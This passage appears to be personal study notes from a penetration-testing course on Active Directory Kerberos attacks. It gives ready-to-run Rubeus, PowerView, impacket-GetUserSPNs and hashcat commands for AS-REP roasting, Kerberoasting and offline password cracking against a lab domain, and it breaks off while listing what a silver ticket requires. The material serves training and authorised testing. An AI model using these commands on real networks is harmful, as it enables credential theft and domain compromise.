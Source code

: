 can do a similar roasting on windows with rubeus

if we're pre-authenicated we can just do a simple command
```
cd C:\Tools
.\Rubeus.exe asreproast /nowrap
```

to get pre-auth disabled on windows, run PowerView
```
Get-DomainUser -PreauthNotRequired
```

if we have GenericWrite or GenericAll on another use, could disable Kerberos preauth then do AS-REP roasting.

### Kerberoasting

for windows we can use rubeus again
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
then use hashcat again, this time we want TGS-REP
```
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

on linux we use impack-GetUserSPNs

```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

This technique is immensely powerful if the domain contains high-privilege service accounts with weak passwords, which is not uncommon in many organizations. However, if the SPN runs in the context of a computer account, a managed service account,5 or a group-managed service account,6 the password will be randomly generated, complex, and 120 characters long, making cracking infeasible. 

Let's assume that we are performing an assessment and notice that we have GenericWrite or GenericAll permissions7 on another AD user account. As stated before, we could reset the user's password but this may raise suspicion. However, we could also set an SPN for the user,8 kerberoast the account, and crack the password hash in an attack named targeted Kerberoasting. 

### Silver Tickets
Privileged Account Certificate (PAC)1 validation2 is an optional verification process between the SPN application and the domain controller. If this is enabled, the user authenticating to the service and its privileges are validated by the domain controller. Fortunately for this attack technique, service applications rarely perform PAC validation.

In general, we need to collect the following three pieces of information to create a silver ticket:
    SPN password hash
    Domain SID
    Target SPN
